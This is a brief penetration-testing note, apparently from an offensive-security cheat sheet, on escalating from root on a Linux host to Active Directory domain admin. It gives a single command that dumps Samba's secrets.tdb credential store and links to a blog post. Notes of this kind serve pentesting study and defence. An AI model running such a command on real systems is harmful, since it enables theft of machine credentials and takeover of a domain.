 # Samba secret to domain admin

Assuming we're root on a machine

```sh
tdbdump /var/lib/samba/private/secrets.tdb
```

[From Linux to AD](https://medium.com/@br4nsh/from-linux-to-ad-10efb529fae91)

